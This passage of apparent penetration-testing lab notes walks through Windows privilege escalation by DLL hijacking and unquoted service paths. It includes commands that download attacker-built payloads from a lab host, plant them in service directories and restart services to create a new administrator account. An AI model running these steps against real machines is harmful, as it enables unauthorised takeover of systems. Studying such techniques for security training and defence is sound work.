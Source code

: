 Now, cross-compile the code with mingw, adding the *--shared* argument to specify that we want to build a DLL.

```bash
x86_64-w64-mingw32-gcc myDLL.cpp --shared -o myDLL.dll
```

Then on the Windows machine..

```bash
cd Documents
iwr -uri http://192.168.119.3/myDLL.dll -Outfile myDLL.dll
net user
Restart-Service BetaService
net user
net localgroup administrators  # Confirm that the new user is created (with administrators privileges)
```

### Unquoted Service Paths

We can use this attack when we have Write permissions to a service's main directory or subdirectories but cannot replace files within them.

You can use this script in cmd to search for these files:

```bash
wmic service get name,pathname |  findstr /i /v "C:\Windows\\" | findstr /i /v """
```

Now, you need to check if you have the permissions to start and stop the services that you (assumably) have found:

```bash
Start-Service GammaService
Stop-Service GammaService
```

Now, you need to see if you have the permissions to write in any of the vulnerable directories:

```bash
icacls "C:\"
icacls "C:\Program Files"
icacls "C:\Program Files\Enterprise Apps"
```

You can use the same executable that we made above to replace the binary file.

```bash
iwr -uri http://192.168.119.3/adduser.exe -Outfile Current.exe
copy .\Current.exe 'C:\Program Files\Enterprise Apps\Current.exe'
Start-Service GammaService
net user 
net localgroup administrators # Verify the executable worked
```

If you can't seem exploit an unquoted service path, try renaming the current service to something else, that way you're not deleting it, which can fail if the service is running or for permissions. Then, you upload your own binary and move it to the name of the original binary.
